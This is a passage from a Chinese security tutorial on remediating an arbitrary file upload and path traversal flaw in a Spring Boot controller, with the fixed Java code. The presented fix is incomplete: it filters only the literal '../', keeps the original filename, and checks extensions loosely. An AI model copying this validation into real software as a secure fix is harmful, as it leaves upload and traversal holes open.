

  

## 修复建议

-   对上传文件的类型进行检查，只允许上传指定的文件类型。
    
-   对上传文件的大小进行限制，以避免过大的文件占用服务器资源。
    
-   校验文件名称，过滤../
    
-   对上传文件进行重命名，以防止恶意覆盖其他文件或者构造路径遍历攻击。
    

## 对 demo 进行简单修复

对文件重命名，这里添加上一个时间戳

```plain
String fileName = System.currentTimeMillis() + "_" + file.getOriginalFilename();
```

检查是否包含../

```plain
// 判断文件名是否合法，即不存在 ../ 字符串
if (originalFileName.contains("../")) {
    // 文件名不合法，抛出异常或给出提示信息
} else {
    // 文件名合法，执行保存操作
}
```

限制文件类型

```plain
// 定义允许上传的文件类型
List<String> allowedExtensions = Arrays.asList("png", "jpg", "gif");

// 获取上传文件的后缀名
String originalFileName = file.getOriginalFilename();    
String extension = originalFileName.substring(originalFileName.lastIndexOf('.') + 1);

// 判断文件类型是否在允许的范围内
if (!allowedExtensions.contains(extension)) {
    return "文件类型不合法！";
} else {
    // 文件类型合法，执行保存操作
}
```

最终的 demo

```plain
package com.garck3h.controller;

import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.multipart.MultipartFile;

import java.io.File;
import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.util.Arrays;
import java.util.List;

/**
 * Created by IntelliJ IDEA.
 *
 * @Author: Garck3h
 * @Date: 2023/6/2
 * @Time: 21:56
 * Life is endless, and there is no end to it.
 **/
@RestController
public class FileUploadController {

    @PostMapping("/upload")
    public String uploadFile(@RequestParam("file") MultipartFile file) {

        if (file.isEmpty()) {
            return "文件为空！";
        }

        //这段代码实现了校验文件上传的后缀，只能是 png,jpg,git 后缀，其它后缀就显示文件非法
        // 定义允许上传的文件类型
        List<String> allowedExtensions = Arrays.asList("png", "jpg", "gif");

        // 获取上传文件的后缀名
        String originalFileName = file.getOriginalFilename();
        String extension = originalFileName.substring(originalFileName.lastIndexOf('.') + 1);

        // 判断文件类型是否在允许的范围内
        if (!allowedExtensions.contains(extension)) {
            // 不支持该类型文件，抛出异常或给出提示信息
            return "文件类型不合法！";

        } else {
            // 文件类型合法，执行保存操作
            try {
                // 获取项目资源路径
                String resourcePath = System.getProperty("user.dir");
                
                // 定义存储文件的目录路径和文件全名
                String folderPath = resourcePath + File.separator + "data" + File.separator + "upload" + File.separator;
                //对文件重命名，以防止恶意覆盖其他文件或者构造路径遍历攻击
                String fileName = System.currentTimeMillis() + "_" + file.getOriginalFilename();
                // 判断文件名是否合法，即不存在 ../ 字符串
                if (originalFileName.contains("../")) {
                    return "不允许包含../";
                } else {// 文件名合法，执行保存操作

                    // 若文件夹不存在，则创建文件夹
                    File folderDir = new File(folderPath);
                    if (!folderDir.exists()) {
                        folderDir.mkdirs();
                    }
                    // 将上传的文件写入磁盘
                    byte[] bytes = file.getBytes();
                    Path path = Paths.get(folderPath + fileName);
                    Files.write(path, bytes);

                    return "文件上传成功!\n"+ "路径："+ path;

                }

            } catch (IOException e) {
                e.printStackTrace();
                return "文件上传失败！";
            }
        }
    }
}
```

测试../是否生效，测试结果 OK



  

测试后缀是否生效，测试结果 OK



  

测试重命名是否生效，测试结果 OK



  

## 总结

本文简单诠释了一下 SpringBoot 任意文件上传且路径可控的情况下带来的一些危害。以一个简单的代码例子来进行分析，分别从三个姿势来进行深入利用。最后对 demo 进行了简单的修复，主要是从校验文件类型、重命名文件和过滤../来实现。